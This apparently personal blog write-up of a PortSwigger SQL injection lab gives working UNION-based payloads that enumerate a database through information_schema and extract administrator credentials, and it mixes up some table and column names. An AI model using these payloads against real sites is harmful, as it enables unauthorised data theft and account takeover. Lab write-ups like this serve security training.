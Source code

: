 +++
title = 'Sql Injection'
date = 2024-07-19T16:26:59+05:30
slug = "portswigger-SQL-database-listing"
categories = ["portswigger","SQL injection","listing databsse contents","non oracle databases"]
+++


![](https://drive.google.com/file/d/1SQCUk4gOo21_JNwo6_-taQhO5KmwX8X9/view?usp=sharing)

From the lab description This lab contains SQL injection Vulnerability in Product category filter 
to solve this lab we need to login as administrator 
this lab contains non oracle databases

refer to [SQL CHEAT SHEET](../SQL%20CHEAT%20SHEET.md) for payloads
Let's access the lab 
like as usual we've intercepted the request and sent it to repeater now let's check number of columns and determine the data type of those columns to perform a union attack 

![](https://drive.google.com/file/d/1-u2vJ8D2krjj1S2OKBWbONyqU-S7XH6d/view?usp=sharing)

we got internal server error of we dfo order by 3 so number of columns is 2 now let's determine the datatype of those columns The payload is 
`'+UNION+SELECT+'abc','def'-- `
![](https://drive.google.com/file/d/1xztTAH6BrxIad8xq1CbaKWTkRo_H_aoV/view?usp=sharing)

so we now know that both columns are of same data type let's now retrieve the username and password for the file 

![](https://drive.google.com/file/d/1E_oughRu5rBXV5ieDXAW0LBIw8j92gUc/view?usp=sharing)


payload to retrieve information about list of tables in database

`+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--`

We got some list of tables let's check them
![](https://drive.google.com/file/d/1hrYETyyNKxdk_IwVUh_Px5aj4HuZE6CJ/view?usp=sharing)


![](https://drive.google.com/file/d/18kxGQpYfJDOUlggkIfie3batN5NaolGh/view?usp=sharing)

the above is the user table 



to retrieve the usernames the payload will be 
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_avyrcv'--

![](https://drive.google.com/file/d/1GLoJ0VcvUa5G1UkLbadrdmzDhhdvY5dY/view?usp=sharing)

we got a username table and a match with word starting with pass that might be the password table 


username_umpehj


The payload to view password table will be 

'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='password_ohgyxof'--



we got our password table too
let's retrieve the details form both tables 

The paylaod will be 


username table : users_avyrcv
password table : password_ohgyxo
username: username_umpehj

'+UNION+SELECT+username_umpehj,+ password_ohgyxo+FROM+users_avyrcv--

'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_avyrcv'--

![](https://drive.google.com/file/d/1vHVScbpiMZKKtG39CNwcLo1QJm2OCUpZ/view?usp=sharing)

let's find administrator details and login 

![](https://drive.google.com/file/d/1Vo2juvuNE7S8_NGcxmHncKOotAoee5hJ/view?usp=sharing)

now let's login

![](https://drive.google.com/file/d/1mWq0Yc-aVngUQKCuV102mGzdlvfkIPhj/view?usp=sharing)



